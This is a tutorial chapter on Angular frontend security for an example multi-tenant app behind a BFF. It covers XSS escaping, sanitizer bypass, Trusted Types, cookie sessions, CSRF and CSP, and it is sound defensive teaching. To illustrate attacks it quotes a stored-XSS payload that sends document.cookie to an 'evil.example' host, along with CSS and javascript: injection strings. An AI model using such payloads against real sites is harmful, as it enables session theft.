




# Chapter 19: Security Best Practices

## 1. Learning Objectives
By the end of this chapter, you will be able to:
* Design **Defense-in-Depth** frontend security for an Angular 22 SPA operating behind a **Duende BFF (Backend-For-Frontend)**.
* Understand how Angular's **Contextual Escaping**, `DomSanitizer`, and all five `SecurityContext` levels prevent **Cross-Site Scripting (XSS)**.
* Safely bypass Angular's sanitizer only under strict origin allowlists, and enforce browser-level **Trusted Types**.
* Explain why storing OIDC tokens in `localStorage` is an architectural anti-pattern, and implement cookie-based BFF sessions with **Anti-CSRF** protection (`X-CSRF`, `SameSite=Strict`, and `withXsrfConfiguration`).
* Configure **Content Security Policy (CSP)**, `CSP_NONCE`, clickjacking protection, and secure MinIO/presigned-URL headers.
* Distinguish **BOLA (404)** from **BFLA (403)**, prevent **CWE-209** error leakage using centralized `ApiMessages`, defend against Open Redirects, and secure AI/RAG generative UI components.

---

## 2. Introduction: The Frontend Security Mandate & Defense-in-Depth

In enterprise multi-tenant applications like **Normora**, security is built on **Defense-in-Depth**—multiple independent layers of protection so that if one control fails, another stops the attack.

A foundational rule of web architecture is **CWE-602 (Client-Side Enforcement of Server-Side Security)**: anything running in the user's browser (TypeScript, Angular route guards, Signals, `@if` template blocks, or hidden buttons) can be inspected, modified, or bypassed by anyone using DevTools or `curl`. Therefore:
* **The Backend (`Normora.Api` + Modular Monolith)** is the *only* authoritative boundary for authentication, tenant isolation, **BOLA (Broken Object Level Authorization)**, and **BFLA (Broken Function Level Authorization)**.
* **The Frontend (Angular 22 SPA)** is responsible for protecting the user's browser session, preventing script injection (**XSS**), preventing unauthorized cross-origin actions (**CSRF**), sanitizing third-party and AI-generated content, preventing information leakage (**CWE-209**), and cleanly clearing cached state across tenant switches.



Fortunately, Angular 22 is one of the most secure frontend frameworks out of the box—provided developers respect its security model and do not actively disable its defenses.

---

## 3. Cross-Site Scripting (XSS) & Angular's Contextual Escaping

### What & Why
**Cross-Site Scripting (XSS)** occurs when an attacker tricks a web application into executing malicious JavaScript inside a victim's browser. In a multi-tenant SaaS like Normora, a single XSS flaw allows an attacker to hijack a workspace admin's active BFF session, trigger unauthorized API calls (such as inviting rogue users or deleting documents), or exfiltrate confidential knowledge-base policies.

XSS typically arrives in three forms:
1. **Stored XSS:** Malicious input is saved in PostgreSQL (e.g., a workspace name, document title, or support ticket) and later rendered to another user.
2. **Reflected XSS:** A malicious payload in a URL query parameter is echoed straight into the DOM.
3. **DOM-based XSS:** Client-side code reads untrusted data (from a URL, SignalR message, or LLM stream) and writes it into an unsafe browser sink such as `element.innerHTML`.

### How Angular Defends: Strict Contextual Escaping
By default, Angular treats all template values as **untrusted**. When compiling templates Ahead-of-Time (AOT), Angular inspects the *context* where a binding is placed and applies one of five `SecurityContext` levels:

| `SecurityContext` | Template Binding Example | How Angular Protects It |
|---|---|---|
| `NONE` | `{{ document.title }}` | Escapes HTML special characters (`<` becomes `&lt;`) so text never executes as markup or script. |
| `HTML` | `<div [innerHTML]="content()">` | Parses HTML and strips dangerous tags (`<script>`, `<iframe>`, `<object>`) and event attributes (`onclick`, `onerror`). |
| `STYLE` | `<div [style.background]="color()">` | Strips CSS expressions like `expression(...)` or `url(javascript:...)` that could execute scripts or leak data. |
| `URL` | `<a [href]="citationUrl()">` | Validates protocol (`http:`, `https:`, `mailto:`); rewrites `javascript:` or `data:text/html` links with an `unsafe:` prefix. |
| `RESOURCE_URL` | `<iframe [src]="embedUrl()">` | Strictest context—Angular **cannot** verify whether an external document/script is safe, so it rejects raw strings unless wrapped in `SafeResourceUrl`. |

### When NOT to Rely on `[innerHTML]` Alone
While `[innerHTML]` runs Angular's built-in sanitizer, **do not** assume `[innerHTML]` solves every HTML rendering problem:
* It does **not** protect against UI redressing / CSS injection if arbitrary inline styles or layout-breaking classes slip through.
* It strips legitimate formatting you might expect in Markdown or SVG icons (such as `<svg>` elements or `id` attributes needed for anchor links).
* Passing raw HTML strings to third-party libraries (or non-Angular DOM APIs) completely bypasses `[innerHTML]` sanitization.

### Real-World Normora Examples

#### Example 1: Interpolation (`{{ }}`) Neutralizing Stored XSS in Tickets & Departments
Suppose an attacker submits a malicious department name or support ticket title:
`<script>fetch('https://evil.example/steal?c=' + document.cookie)</script>`.

```html
<!-- Angular strictly escapes {{ }} as plain text: "&lt;script&gt;..." -->
<!-- It will NEVER execute as JavaScript. -->
<h1 class="text-xl font-semibold text-slate-900 dark:text-white">
  {{ department().name }}
</h1>
```

#### Example 2: Safe Citation Snippets in `ChunkPreviewDrawerComponent`
Normora's `ChunkPreviewDrawerComponent` displays retrieved RAG policy chunks from `Documents`. Even though chunks come from internal company files, a malicious PDF or Markdown upload could contain ``. Bind text safely or sanitize before rendering:

```typescript
import { Component, input, computed, inject, SecurityContext } from '@angular/core';
import { DomSanitizer } from '@angular/platform-browser';

@Component({
  selector: 'app-chunk-preview-drawer',
  template: `
    <aside class="p-4 bg-white dark:bg-slate-900 border-l border-slate-200 dark:border-slate-700 custom-scrollbar overflow-y-auto">
      <h2 class="text-sm font-semibold text-slate-900 dark:text-white">
        {{ chunk().documentTitle }}
      </h2>
      <!-- [innerHTML] runs Angular's HTML sanitizer, stripping onerror/script -->
      <div class="mt-3 text-sm text-slate-700 dark:text-slate-300" [innerHTML]="sanitizedSnippet()"></div>
    </aside>
  `
})
export class ChunkPreviewDrawerComponent {
  private readonly sanitizer = inject(DomSanitizer);

  readonly chunk = input.required<{ documentTitle: string; renderedHtml: string }>();

  readonly sanitizedSnippet = computed(() =>
    this.sanitizer.sanitize(SecurityContext.HTML, this.chunk().renderedHtml) ?? ''
  );
}
```

#### Example 3: Neutralizing `javascript:` in RAG Citation Links (`URL` Context)
If an ingested document or agent tool includes a deceptive link like `javascript:alert('xss')`, Angular's `[href]` binding automatically neutralizes it by prefixing `unsafe:`. For extra safety in Normora, explicitly validate the scheme as well:

```typescript
import { Component, computed, input } from '@angular/core';

@Component({
  selector: 'app-citation-link',
  template: `
    @if (safeExternalHref(); as href) {
      <a
        [href]="href"
        target="_blank"
        rel="noopener noreferrer"
        class="text-indigo-600 dark:text-indigo-400 hover:underline border-none!">
        {{ label() }}
      </a>
    } @else {
      <span class="text-slate-500 dark:text-slate-400">{{ label() }}</span>
    }
  `
})
export class CitationLinkComponent {
  readonly url = input.required<string>();
  readonly label = input.required<string>();

  readonly safeExternalHref = computed(() => {
    try {
      const parsed = new URL(this.url());
      return parsed.protocol === 'https:' || parsed.protocol === 'http:' ? parsed.toString() : null;
    } catch {
      return null;
    }
  });
}
```

#### Example 4: Validating White-Label Branding Colors in `Tenants` (`STYLE` Context)
In Normora's `Tenants` module, workspace admins customize branding colors. Never inject arbitrary CSS strings into `<style>` tags. Validate hex formats strictly before writing CSS custom properties:

```typescript
const HEX_COLOR_PATTERN = /^#([0-9a-fA-F]{6}|[0-9a-fA-F]{3})$/;

export function applySafeTenantAccent(color: string): void {
  if (!HEX_COLOR_PATTERN.test(color)) {
    return; // Reject CSS injection payloads like "red; background: url(https://evil.example/leak)"
  }
  document.documentElement.style.setProperty('--normora-accent', color);
}
```

#### Example 5: `RESOURCE_URL` Context vs. Download Links in `Documents`
If a component attempts to bind a plain string to `<iframe [src]="documentUrl()">`, Angular throws a runtime error (`NG0904: unsafe value used in a resource URL context`) because an untrusted `iframe` can execute arbitrary scripts or phish users. Use a dedicated download/preview button with an allowlisted origin or safe `<a>` link rather than embedding untrusted uploaded files in `<iframe>` tags.

#### Example 6: Rendering A2UI Cards (`ExpenseSimulatorCardComponent`) with Typed Signals
Instead of letting `NormoraWorkplaceAgent` stream raw HTML strings for interactive calculators, Normora's AG-UI protocol streams structured JSON payloads (`policy_limit_card`) rendered by strongly typed Angular 22 standalone components—eliminating HTML injection entirely:

```typescript
@Component({
  selector: 'app-expense-simulator-card',
  template: `
    <section class="p-4 rounded-lg bg-slate-50 dark:bg-slate-800 border border-slate-200 dark:border-slate-700">
      <h3 class="text-base font-semibold text-slate-900 dark:text-white">{{ policyTitle() }}</h3>
      <p class="text-sm text-slate-600 dark:text-slate-300">
        Estimated Allowance: {{ totalAllowance() }} {{ currency() }}
      </p>
    </section>
  `
})
export class ExpenseSimulatorCardComponent {
  readonly policyTitle = input.required<string>();
  readonly nightlyRate = input.required<number>();
  readonly nights = model<number>(1);
  readonly currency = input<string>('USD');

  readonly totalAllowance = computed(() => this.nightlyRate() * Math.max(1, this.nights()));
}
```

---

## 4. Bypassing the Sanitizer & Browser Trusted Types

### What & Why
Occasionally, an enterprise dashboard genuinely needs to embed a trusted external resource—such as a corporate YouTube training video or a PowerBI analytics `<iframe>`. Angular's `DomSanitizer` strips or blocks `<iframe>` resource URLs by default because they are high-risk execution contexts.

`DomSanitizer` provides five bypass methods (`bypassSecurityTrustHtml`, `bypassSecurityTrustScript`, `bypassSecurityTrustStyle`, `bypassSecurityTrustUrl`, `bypassSecurityTrustResourceUrl`). Calling any of them tells Angular: *"I vouch for this value; skip sanitization completely."*

### How to Bypass Safely (Modern Angular 22 Pattern)
Always wrap `bypassSecurityTrust*` behind a **strict origin/hostname allowlist** inside a `computed()` signal—never trust arbitrary string concatenation.

```typescript
import { Component, computed, inject, input } from '@angular/core';
import { DomSanitizer, SafeResourceUrl } from '@angular/platform-browser';

@Component({
  selector: 'app-analytics-embed',
  template: `
    @if (safeUrl(); as url) {
      <iframe
        [src]="url"
        sandbox="allow-scripts allow-same-origin"
        class="w-full h-96 rounded-lg border-none! bg-white dark:bg-slate-900">
      </iframe>
    } @else {
      <p class="text-sm text-red-600 dark:text-red-400">Untrusted embed origin blocked.</p>
    }
  `
})
export class AnalyticsEmbedComponent {
  private readonly sanitizer = inject(DomSanitizer);
  private readonly allowedHosts = new Set(['www.youtube.com', 'app.powerbi.com']);

  readonly embedUrl = input<string>('https://www.youtube.com/embed/dQw4w9WgXcQ');

  readonly safeUrl = computed<SafeResourceUrl | null>(() => {
    try {
      const parsed = new URL(this.embedUrl());
      if (parsed.protocol !== 'https:' || !this.allowedHosts.has(parsed.hostname)) {
        return null;
      }
      // Safe because protocol and hostname passed an explicit allowlist
      return this.sanitizer.bypassSecurityTrustResourceUrl(parsed.toString());
    } catch {
      return null;
    }
  });
}
```

> [!WARNING]
> **Architect Rule:** Never call `bypassSecurityTrust*` using unvalidated data from a user, a URL query parameter, a database record, or an AI/LLM response. Bypassing sanitization on untrusted input creates a direct, critical XSS vulnerability.

### Browser Trusted Types: Defense at the DOM Engine Level
**Trusted Types** is a modern browser security standard enforced via Content Security Policy (`require-trusted-types-for 'script'`). Instead of relying solely on developers remembering not to write `element.innerHTML = userInput`, Trusted Types makes the browser **throw a `TypeError`** whenever any JavaScript code tries to pass a raw string into a dangerous DOM sink (`innerHTML`, `outerHTML`, `document.write`, `eval`, `<script>.src`).

Angular natively integrates with Trusted Types using two built-in policies:
* `angular`: Used internally by Angular's compiler and `DomSanitizer` when compiling templates and sanitizing `[innerHTML]`.
* `angular#unsafe-bypass`: Required *only* if your application explicitly calls `bypassSecurityTrust*`.



### When NOT to Use `bypassSecurityTrust*` or Strict Trusted Types
* **When NOT to use `bypassSecurityTrust*`:** Never use it to "fix" stripped `<svg>`, Markdown links, or rich text from users or Gemini responses. Use a dedicated sanitizer library (like DOMPurify) or native Angular components instead.
* **When NOT to enforce `require-trusted-types-for 'script'` immediately:** Do not turn on enforcing mode in production before testing all third-party packages (e.g., older chart libraries or rich-text editors) in `Content-Security-Policy-Report-Only` mode first, as legacy libraries writing raw strings to `innerHTML` will crash at runtime.

### Real-World Normora Examples

#### Example 1: Allowlisted Embeds in Normora Admin Analytics
Using `AnalyticsEmbedComponent` above, Normora allows workspace admins to embed only corporate `app.powerbi.com` reports, rejecting any attacker-supplied `https://phishing.example` URL before `bypassSecurityTrustResourceUrl` is ever invoked.

#### Example 2: Blocking SVG XSS on White-Label Tenant Logos
In `Tenants`, admins upload a custom workspace logo stored in MinIO (`MinioBrandingStorageService`). An `.svg` file is actually XML that can contain `<script>` or `onload="alert(1)"`. **Never** fetch an uploaded `.svg` string and render it with `bypassSecurityTrustHtml`! Render logos via ``—browsers do not execute JavaScript inside `` elements.

#### Example 3: Enabling Trusted Types Policy in Normora's CSP Header
In `Normora.Api` security header middleware, Normora configures Trusted Types so Angular's built-in policies work while blocking rogue third-party DOM injection:

```http
Content-Security-Policy: require-trusted-types-for 'script'; trusted-types angular angular#unsafe-bypass dompurify;
```

*(Omit `angular#unsafe-bypass` entirely if your app avoids `bypassSecurityTrust*` calls—that guarantees even a developer mistake cannot bypass sanitization!)*

#### Example 4: Safe Markdown Pipeline for `NormoraWorkplaceAgent` & `saved_answers`
Gemini RAG responses in `Conversations` return Markdown with headings, tables, and citation links. Instead of calling `bypassSecurityTrustHtml(marked.parse(answer))`, sanitize the parsed HTML with **DOMPurify** (configured with a strict tag/attribute allowlist and `ALLOWED_URI_REGEXP`) before binding:

```typescript
import DOMPurify from 'dompurify';
import { Injectable, inject, SecurityContext } from '@angular/core';
import { DomSanitizer } from '@angular/platform-browser';

@Injectable({ providedIn: 'root' })
export class MarkdownSanitizerService {
  private readonly sanitizer = inject(DomSanitizer);

  toSafeHtml(rawHtmlFromMarkdown: string): string {
    const purified = DOMPurify.sanitize(rawHtmlFromMarkdown, {
      ALLOWED_TAGS: ['p', 'strong', 'em', 'code', 'pre', 'ul', 'ol', 'li', 'a', 'table', 'thead', 'tbody', 'tr', 'th', 'td', 'blockquote'],
      ALLOWED_ATTR: ['href', 'target', 'rel']
    });
    // Defense-in-depth: pass through Angular's sanitizer too
    return this.sanitizer.sanitize(SecurityContext.HTML, purified) ?? '';
  }
}
```

#### Example 5: Safe Document Blob Previews Without `bypassSecurityTrustResourceUrl`
When previewing a PDF fetched via BFF from MinIO, validate the `Blob.type` strictly (`application/pdf`) before creating an object URL, and never pass `text/html` blobs into `bypassSecurityTrustResourceUrl`:

```typescript
export function createSafePdfObjectUrl(blob: Blob): string | null {
  if (blob.type !== 'application/pdf') {
    return null; // Reject text/html or image/svg+xml masquerading as a document preview
  }
  return URL.createObjectURL(blob);
}
```

---

## 5. Authentication & Session Architecture: Duende BFF vs. Browser Tokens

### What & Why
Historically, SPAs acted as public OAuth2 clients: Angular redirected to an Identity Provider (like Keycloak), obtained JWT `access_token` and `refresh_token` values in the browser, and stored them in `localStorage` or `sessionStorage`.

In high-security enterprise applications, **storing OIDC tokens in browser storage is a critical architectural risk**:
* Any JavaScript running on the origin—whether from a subtle XSS bug, a compromised npm dependency, or a malicious browser extension—can execute `localStorage.getItem('access_token')` and exfiltrate the user's identity and refresh token indefinitely.

The modern enterprise standard—used by **Normora**—is the **Backend-For-Frontend (BFF)** pattern with **Duende BFF** (`Normora.Api`):
* The Angular SPA **never** receives, parses, or stores OAuth2/OIDC access or refresh tokens.
* `Normora.Api` performs the OIDC code exchange with **Keycloak 24** over a secure backchannel, stores the tokens safely on the server (or encrypted session store backed by Redis), and issues an encrypted **`HttpOnly`, `SameSite=Strict`, `Secure`** session cookie to the browser.
* Because the cookie is `HttpOnly`, JavaScript (`document.cookie`) **cannot read it**—even if XSS occurs, the token cannot be stolen.



### When NOT to Use the BFF Pattern
* **Native Mobile / Desktop Apps:** Mobile apps (iOS/Android) do not share a browser cookie jar with a web origin; they should use Authorization Code + PKCE storing tokens in the OS Keychain / Keystore.
* **Fully Public Static Sites / Public Open APIs:** If your app serves only unauthenticated public content, adding a stateful BFF session layer introduces unnecessary server session management.
* **Cross-Origin Micro-Frontends Without a Shared Gateway:** If your SPA must talk directly to dozens of unrelated third-party domains that do not sit behind your BFF reverse proxy, cookie scoping becomes complex.

### Real-World Normora Examples

#### Example 1: Hydrating Session State via `/bff/user` with `provideAppInitializer` & Signals
In Angular 22, `APP_INITIALIZER` is replaced by `provideAppInitializer()`. Normora queries `/bff/user` at startup to populate a read-only Signal store—no JWT decoding in the browser:

```typescript
// client/src/app/core/auth/auth-session.store.ts
import { Injectable, computed, inject, signal } from '@angular/core';
import { HttpClient } from '@angular/common/http';
import { firstValueFrom } from 'rxjs';

export interface BffClaim {
  type: string;
  value: string;
}

@Injectable({ providedIn: 'root' })
export class AuthSessionStore {
  private readonly http = inject(HttpClient);
  private readonly claimsSignal = signal<BffClaim[] | null>(null);

  readonly isAuthenticated = computed(() => (this.claimsSignal()?.length ?? 0) > 0);
  readonly externalUserId = computed(
    () => this.claimsSignal()?.find((c) => c.type === 'sub')?.value ?? null
  );

  async loadSession(): Promise<void> {
    try {
      const claims = await firstValueFrom(
        this.http.get<BffClaim[]>('/bff/user', { headers: { 'X-CSRF': '1' } })
      );
      this.claimsSignal.set(claims);
    } catch {
      this.claimsSignal.set([]);
    }
  }

  clearSession(): void {
    this.claimsSignal.set([]);
  }
}
```

#### Example 2: Functional `bffAuthInterceptor` for `401 Unauthorized`
When a user's Duende BFF session expires or is revoked in Redis, `Normora.Api` returns `401 Unauthorized`. A functional interceptor clears local Signal state and shows a standardized `ApiMessages` notification before redirecting to `/bff/login`:

```typescript
import { HttpErrorResponse, HttpInterceptorFn } from '@angular/common/http';
import { inject } from '@angular/core';
import { catchError, throwError } from 'rxjs';
import { AuthSessionStore } from './auth-session.store';
import { ApiMessages } from '../constants/api-messages';

export const bffAuthInterceptor: HttpInterceptorFn = (req, next) => {
  const sessionStore = inject(AuthSessionStore);

  return next(req).pipe(
    catchError((error: unknown) => {
      if (error instanceof HttpErrorResponse && error.status === 401 && !req.url.includes('/bff/user')) {
        sessionStore.clearSession();
        // Surface centralized message (no hardcoded strings!)
        console.warn(ApiMessages.SessionExpired);
      }
      return throwError(() => error);
    })
  );
};
```

#### Example 3: Clearing Multi-Tenant Signal State on Logout or Workspace Switch
In a multi-tenant app, if an admin switches from Workspace A (`acme`) to Workspace B (`globex`) or logs out, cached Signals in `DocumentsStore` or `ConversationsStore` could briefly flash Tenant A's document titles to Tenant B! Always reset all tenant-scoped Signal stores on logout or workspace switch before navigating.

#### Example 4: Securing SignalR (`IDocumentNotificationService`) Without Query-String Tokens
Older SignalR tutorials pass JWTs in the URL query string (`?access_token=...`), which leaks tokens into server access logs, proxy logs, and browser history. Because Normora uses Duende BFF on the same origin, SignalR's WebSocket handshake automatically sends the `HttpOnly` session cookie—zero tokens appear in URLs or JavaScript memory:

```typescript
import * as signalR from '@microsoft/signalr';

export function createDocumentHubConnection(): signalR.HubConnection {
  return new signalR.HubConnectionBuilder()
    .withUrl('/hubs/workspace-sync', {
      withCredentials: true // Sends HttpOnly BFF cookie over same-origin/CORS-allowed origin
    })
    .withAutomaticReconnect()
    .build();
}
```

#### Example 5: Streaming `/api/copilotkit` SSE Safely with `fetch()`
The browser's native `EventSource` API **cannot** attach custom headers like `X-CSRF: 1`. For Normora's `NormoraWorkplaceAgent` SSE stream (`/api/copilotkit`), use the Fetch API with `credentials: 'same-origin'` and the anti-CSRF header instead:

```typescript
export async function openAgentStream(payload: unknown, signal: AbortSignal): Promise<Response> {
  return fetch('/api/copilotkit', {
    method: 'POST',
    credentials: 'same-origin',
    headers: {
      'Content-Type': 'application/json',
      'X-CSRF': '1'
    },
    body: JSON.stringify(payload),
    signal
  });
}
```

---

## 6. Cross-Site Request Forgery (CSRF / XSRF) Protection

### What & Why
**Cross-Site Request Forgery (CSRF)** occurs when a malicious website (`evil.example`) tricks a logged-in user's browser into sending an unwanted state-changing request to your application (`app.normora.com`). Because browsers automatically attach cookies to requests targeting `app.normora.com`, the backend cannot tell whether the user clicked "Delete" inside Normora or submitted a hidden `<form>` on `evil.example`—unless CSRF defenses are enforced.

**Important Architectural Nuance:**
* If an app stores JWTs in `localStorage` and sends `Authorization: Bearer ...` manually, it is naturally immune to CSRF (because `evil.example` cannot read `localStorage`), **but it is catastrophically vulnerable to XSS token theft**.
* When using **`HttpOnly` Session Cookies** (as Normora's Duende BFF does), you eliminate XSS token theft and must pair cookies with **CSRF protection**.

### How Angular & Duende BFF Defend Against CSRF
Enterprise Angular + .NET applications combine three layers of CSRF defense:

1. **`SameSite=Strict` (or `Lax`) Cookies:** Instructs the browser never to attach the BFF session cookie on cross-site requests.
2. **Angular's Built-In XSRF Double-Submit Cookie (`withXsrfConfiguration`):**
   - The backend sets a readable cookie (e.g., `XSRF-TOKEN`).
   - Angular's `HttpClient` automatically reads that cookie and attaches it as a header (e.g., `X-XSRF-TOKEN`) on mutating requests (`POST`, `PUT`, `PATCH`, `DELETE`).
   - A malicious site cannot read `app.normora.com`'s cookie due to the Same-Origin Policy, so it cannot forge the header.
3. **Duende BFF Anti-CSRF Custom Header (`X-CSRF: 1`):**
   - HTML `<form>` submissions and simple cross-origin requests **cannot** add custom HTTP headers like `X-CSRF`.
   - Any cross-origin `fetch()` attempting to set `X-CSRF: 1` triggers a CORS preflight (`OPTIONS`) check, which `Normora.Api` rejects for untrusted origins.
   - Duende BFF endpoints mapped with `AsBffApiEndpoint()` enforce this header automatically on every BFF-protected route.

```typescript
// app.config.ts: Configuring Angular's XSRF Double-Submit + BFF X-CSRF Interceptor
import { ApplicationConfig, provideZonelessChangeDetection } from '@angular/core';
import { provideHttpClient, withInterceptors, withXsrfConfiguration, HttpInterceptorFn } from '@angular/common/http';

export const bffCsrfInterceptor: HttpInterceptorFn = (req, next) => {
  // Only attach X-CSRF to same-origin API/BFF calls, never to external hosts like MinIO presigned URLs!
  if (req.url.startsWith('/api/') || req.url.startsWith('/bff/')) {
    return next(req.clone({ setHeaders: { 'X-CSRF': '1' } }));
  }
  return next(req);
};

export const appConfig: ApplicationConfig = {
  providers: [
    provideZonelessChangeDetection(),
    provideHttpClient(
      withXsrfConfiguration({
        cookieName: 'My-Custom-Xsrf-Cookie',
        headerName: 'My-Custom-Xsrf-Header'
      }),
      withInterceptors([bffCsrfInterceptor])
    )
  ]
};
```

### When NOT to Attach `X-CSRF` or Cookies
* **Never attach `X-CSRF` or `withCredentials: true` to third-party origins** (such as direct browser uploads to a separate MinIO S3 bucket URL using a presigned URL). Sending extra headers to S3 presigned URLs breaks signature verification and can leak custom headers if CORS allows it.
* **Never skip antiforgery globally with `[AllowAnonymous]`**: In Normora, antiforgery is skipped *only* on externally signed webhook/callback endpoints (such as PayU payment callbacks), which authenticate via cryptographic payload signatures instead of cookies.

### Real-World Normora Examples

#### Example 1: `bffCsrfInterceptor` Scoped Strictly to `/api/` and `/bff/`
As shown in `app.config.ts` above, scoping `X-CSRF: 1` strictly to relative `/api/` and `/bff/` routes ensures Normora's BFF endpoints validate CSRF while external MinIO presigned `PUT` uploads remain clean.

#### Example 2: Protecting HITL `documents_delete` Approvals (`ApprovalsController`)
When `NormoraWorkplaceAgent` requests deletion of a company policy via `documents_delete`, it creates a `PendingApproval` record in PostgreSQL with a 15-minute TTL. Confirming that deletion (`POST /api/approvals/{id}/confirm`) requires both the `HttpOnly` BFF cookie and `X-CSRF: 1`—so an attacker cannot trick an admin into confirming a deletion from an external tab.

#### Example 3: Protecting Workspace Currency & Billing Mutations
Updating a workspace's billing currency (`PUT /api/subscription/currency` -> `UpdateTenantCurrencyCommand`) alters `TenantPlan.Currency` and subsequent invoice calculations. Protected by `SameSite=Strict` + `X-CSRF: 1` + `AsBffApiEndpoint()`, cross-site requests are blocked with `400/403` before reaching MediatR.

#### Example 4: Ensuring `GET` Endpoints Remain Strictly Idempotent & Read-Only
Even with `SameSite=Lax`, top-level link navigations (`<a href="https://app.normora.com/api/...">`) carry cookies on `GET` requests. In Normora, `GET` routes in `DocumentsController` and `ConversationsController` strictly execute CQRS `Query` handlers and never trigger state mutations.

#### Example 5: Distinguishing BFF Endpoints from Externally Signed PayU Callbacks
Normora's Angular SPA sends subscription checkout initiation over BFF (`AsBffApiEndpoint()`, protected by cookie + `X-CSRF: 1`). By contrast, PayU's server-to-server/redirect callback arrives from PayU without a BFF `X-CSRF` header and is explicitly verified via PayU's cryptographic hash and `udf3 = "{currency}:{cycle}"` signature on the backend—never by skipping antiforgery broadly across unrelated endpoints.

---

## 7. Content Security Policy (CSP), Security Headers & Clickjacking

### What & Why
Even if you write clean Angular templates, defense-in-depth requires the HTTP server (`Normora.Api` or NGINX) to instruct the browser what scripts, styles, frames, and network endpoints are legitimate. That contract is delivered via **HTTP Security Headers**:

| Header | Purpose | Recommended Setting |
|---|---|---|
| `Content-Security-Policy` | Restricts where scripts, styles, images, frames, and API calls can load from. | Strict `default-src 'self'` + nonces (`CSP_NONCE`) + explicit `connect-src`. |
| `frame-ancestors` (CSP) / `X-Frame-Options` | Prevents **Clickjacking** (embedding your app inside an invisible `<iframe>` to hijack clicks). | `frame-ancestors 'none'` and `X-Frame-Options: DENY`. |
| `X-Content-Type-Options` | Stops browsers from MIME-sniffing a `.txt` or uploaded file into `text/html` / `application/javascript`. | `nosniff`. |
| `Referrer-Policy` | Prevents sensitive URL paths (tenant slugs, document IDs) from leaking in the `Referer` header when clicking external links. | `strict-origin-when-cross-origin`. |
